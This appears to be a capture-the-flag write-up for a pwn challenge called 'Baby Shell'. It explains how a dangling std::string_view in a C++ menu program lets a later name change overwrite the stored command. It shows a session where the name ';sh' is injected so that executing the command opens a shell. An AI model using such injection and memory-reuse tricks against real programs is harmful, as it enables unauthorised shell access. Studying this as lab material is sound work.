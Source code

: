 # Baby Shell

* Round: 27 (2022/10)
* Category: Pwn
* Points: 50
* Solves: 17

## Description

I wrote a new shell in C++, but only premium users can actually use it :rooDevil:

Hint: The bug is in `string_view`. The source hides the bug a little bit, it might be helpful to look at the output of a decompiler like Ghidra or IDA

## Solution

`std::string` is a struct on stack and it will store the string data on stack when the data is small (SSO).  `std::string_view` is like a pointer that points to a `std::string`. So  `command = "#" + s` will assign a temporary string to a `string_view`, so it is like a dangling pointer.
And if you decompile it using ida, it is easy to see that two string concat uses same stack space, so executing `"@" + name` overrides the data that `command` points to.
```
> ./chall
What's your name? 1234
==== Menu ====
1. Change name
2. Status
3. Set command
4. Execute command
> 3
aaaa
==== Menu ====
1. Change name
2. Status
3. Set command
4. Execute command
> 1
What's your new name? ;sh
==== Menu ====
1. Change name
2. Status
3. Set command
4. Execute command
> 2
==== Status ====
Username: @;sh
Is premium: 0
==== Menu ====
1. Change name
2. Status
3. Set command
4. Execute command
> 4
Executing @;sh
sh: line 1: @: command not found
sh-5.1$ id
uid=1000(maple3142) gid=1000(maple3142) groups=1000(maple3142),998(wheel),1001(docker)
sh-5.1$
```
